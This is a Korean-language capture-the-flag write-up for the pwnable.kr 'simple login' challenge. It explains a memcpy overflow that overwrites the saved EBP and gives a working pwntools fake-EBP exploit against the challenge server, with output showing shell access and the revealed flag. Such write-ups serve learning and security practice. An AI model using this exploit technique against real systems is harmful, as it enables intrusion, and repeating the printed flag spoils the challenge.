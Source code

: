 # [pwnable.kr] simple login writeup

#### [summary] fake ebp

```shell
Can you get authentication from this server?

Download : http://pwnable.kr/bin/login

Running at : nc pwnable.kr 9003
```



실행시켜보면 입력을 받고 특정 루틴에 따라 hash를 계산하여 출력한다.

```shell
ch4rli3kop@Mandu:~/Downloads$ ./login 
Authenticate : AAAAA
hash : b26fd022d7efc5b78180f16ada99c32a
```



이제 내부를 분석할 차례인데, IDA가 없으니 pseudo 코드를 나타낼 수 없어 뭐로 설명해야할 지 잘 모르겠다. 귀찮으니 그냥 요약하겠음



사용자의 입력은 우선 스택에 입력받은 뒤, `Base64Decode()` 함수를 거쳐 decoding 된 뒤, `memcpy`를 통해 .bss 영역의 input(0x811eb40)에 저장된다.

이 후 `auth()`를 거쳐서 `calc_md5()`를 통해 계산된 hash 값을 0x80da684에 저장되어 있는 `f87cd601aa7fedca99018a8be88eda34`와 비교하는데, 이게 같으면 `correct()`가 실행된다.



취약점은 길이 제한없이 복사하는 `memcpy` 때문에 발생하게 되는데, `auth()` 내부에 존재하는 `memcpy`에서 input(0x811eb40)에 저장되어있는 값을 stack에 복사하면서 __EBP__를 덮을 수 있는 취약점이 발생한다. (`main()`에 존재하는 `memcpy`는 입력의 길이 제한때문에 별 문제없이 동작함)



별 특별한 동작없이 `auth()`와 `main()`의 함수 에필로그가 연달아 수행되기 때문에, 걍 fake ebp를 사용하면 된다.



#### exploit

```python
#!/usr/bin/python
from pwn import *
import base64

r = remote('pwnable.kr', 9003)

payload = p32(0x8049278)*2+p32(0x811eb40)
r.sendline(base64.encodestring(payload))

r.interactive()
```

흐름대로 따라가면 payload의 첫 번째 4바이트는 결국 스택처럼 사용되는 공간인데, input 공간이 적당한 위치의 .bss 영역에 존재하므로 대충 input 주소로 맞춰주어도 무방하다.

위의 페이로드는 우선 0x811eb40이 `auth()`의 __EBP__를 덮어서 `auth()`의 에필로그 과정에서 __EBP__가 0x811eb40으로 된다. 그 후 `main()`의 에필로그 과정에서 첫 번째 0x8049278(correct의 내부 주소)은 새로운 __EBP__ 값으로, 그 다음 0x8049278은 새로운 __EIP__가 된다.



```shell
ch4rli3kop@Mandu:~/WRITE-UP/pwnkr/simple_login$ python sol.py 
[+] Opening connection to pwnable.kr on port 9003: Done
[*] Switching to interactive mode
Authenticate : hash : 328f78c8913117042ea4b3541aa8899d
Congratulation! you are good!
$ id
uid=1037(simplelogin) gid=1037(simplelogin) groups=1037(simplelogin)
$ cat flag
control EBP, control ESP, control EIP, control the world~
```

